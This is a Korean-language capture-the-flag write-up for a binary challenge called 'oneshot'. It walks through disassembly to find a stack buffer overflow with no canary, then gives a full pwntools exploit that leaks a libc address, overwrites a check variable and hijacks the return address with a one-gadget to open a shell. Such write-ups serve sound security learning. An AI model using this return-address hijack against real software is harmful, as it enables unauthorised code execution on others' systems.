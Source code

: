 * 또한, 이번 문제에서는 Canary가 없기에 RET까지 덮어씌울 수 있고, 입력할 수 있는 크기가 크지 않기에 `one-gadget`을 이용한다.


```armasm
0x0000000000000a91 <+80>:    lea    rax,[rbp-0x20]
0x0000000000000a95 <+84>:    mov    edx,0x2e
0x0000000000000a9a <+89>:    mov    rsi,rax
0x0000000000000a9d <+92>:    mov    edi,0x0
0x0000000000000aa2 <+97>:    call   0x830 <read@plt>
```

* `msg`의 값은 **[rbp-0x20]**에 위치

```armasm
0x0000000000000aa7 <+102>:   cmp    QWORD PTR [rbp-0x8],0x0
0x0000000000000aac <+107>:   je     0xab8 <main+119>
```

* `check`의 값을 **[rbp-0x8]**에서 체크하기에 check 변수의 위치 확인

따라서, payload는 0x20-0x8 만큼의 **Dummy**, check의 값 QWORD(8byte)의 **0**, RET에 system('/bin/sh')을 위한 **one-gadget**을 넣으면 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/201008773-71281f35-58d7-4e07-9978-265c60a5edcf.jpg" width = 350>
</p>

```python
from pwn import *

def log(a, b):
    return success(": ".join([a, hex(b)]))

context.log_level = 'debug'

p = process('./oneshot')
libc = ELF('./libc.so.6') 

og_list = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
p.recvuntil('stdout: ')
stdout = int(p.recv(14), 16)

libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
og = libc_base + og_list[0]

log('put', libc_base + libc.symbols['puts'])
log('libc base',libc_base)
log('stdout', stdout)
log('one_gadget', og)

payload = b'A' * 0x18 + p64(0) + b'D' * 0x8 + p64(og)

p.sendlineafter('MSG: ', payload)
p.interactive()
```
